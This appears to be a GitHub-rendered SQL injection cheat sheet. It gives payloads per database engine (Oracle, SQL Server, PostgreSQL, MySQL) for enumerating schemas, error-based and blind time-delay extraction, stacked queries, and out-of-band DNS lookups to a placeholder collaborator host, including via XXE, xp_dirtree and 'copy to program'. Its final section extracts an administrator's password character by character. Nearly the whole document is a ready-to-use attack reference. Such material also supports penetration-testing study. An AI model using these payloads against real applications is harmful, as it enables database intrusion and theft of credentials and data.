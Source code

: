# String concatenation

- Oracle	`'foo'||'bar'`
- Microsoft	`'foo'+'bar'`
- PostgreSQL	`'foo'||'bar'`
- MySQL	`'foo' 'bar'` [Note the space between the two strings]<br>
<t>`CONCAT('foo','bar')`

# Substring

- Oracle	`SUBSTR('foobar', 4, 2)`
- Microsoft	`SUBSTRING('foobar', 4, 2)`
- PostgreSQL	`SUBSTRING('foobar', 4, 2)`
- MySQL	`SUBSTRING('foobar', 4, 2)`

# Comments

- Oracle	`--comment`
- Microsoft	`--comment` `/*comment*/`
- PostgreSQL	`--comment` `/*comment*/`
- MySQL	`#comment` `-- comment` [Note the space after the double dash]<br>
<t>`/*comment*/`

# Database version

- Oracle	`SELECT banner FROM v$version`
`SELECT version FROM v$instance`
- Microsoft	`SELECT @@version`
- PostgreSQL	`SELECT version()`
- MySQL	`SELECT @@version`

# Database contents

- Oracle	`SELECT * FROM all_tables`<br>
`SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
- Microsoft	`SELECT * FROM information_schema.tables`<br>
`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- PostgreSQL	`SELECT * FROM information_schema.tables`<br>
`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- MySQL	`SELECT * FROM information_schema.tables`<br>
`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

# Conditional errors

- Oracle	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
- Microsoft	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
- PostgreSQL	`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
- MySQL	`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`

# Extracting data via visible error messages

- Microsoft	`SELECT 'foo' WHERE 1 = (SELECT 'secret')`
> Conversion failed when converting the varchar value 'secret' to data type int.
- PostgreSQL	`SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`
> invalid input syntax for integer: "secret"
- MySQL	`SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))`
> XPATH syntax error: '\secret'


# Batched (or stacked) queries

- Oracle	`Does not support batched queries.`
- Microsoft	`QUERY-1-HERE; QUERY-2-HERE`
`QUERY-1-HERE QUERY-2-HERE`
- PostgreSQL	`QUERY-1-HERE; QUERY-2-HERE`
- MySQL	`QUERY-1-HERE; QUERY-2-HERE`

> [!Note]
> With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

# Time delays

- Oracle	`dbms_pipe.receive_message(('a'),10)`
- Microsoft	`WAITFOR DELAY '0:0:10'`
- PostgreSQL	`SELECT pg_sleep(10)`
- MySQL	`SELECT SLEEP(10)`

# Conditional time delays

- Oracle	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- Microsoft	`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
- PostgreSQL	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- MySQL	`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`

# DNS lookup

- **Oracle**<br>
(XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:<br>
`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`<br><br>
The following technique works on fully patched Oracle installations, but requires elevated privileges:<br>
`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`
- **Microsoft**<br>	`exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`
- **PostgreSQL**<br>	`copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`
- **MySQL**	<br>
The following techniques work on Windows only:<br>
`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`<br>
`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`

# others

- `SELECT 'a' FROM users LIMIT 1='a`: to find user table is exist or not
- `SELECT 'a' FROM users WHERE username='administrator'='a`: to get administrator is in users of not
- `SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1='a`: to get length of password of administrator
- `SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`: to find first char of password of administrator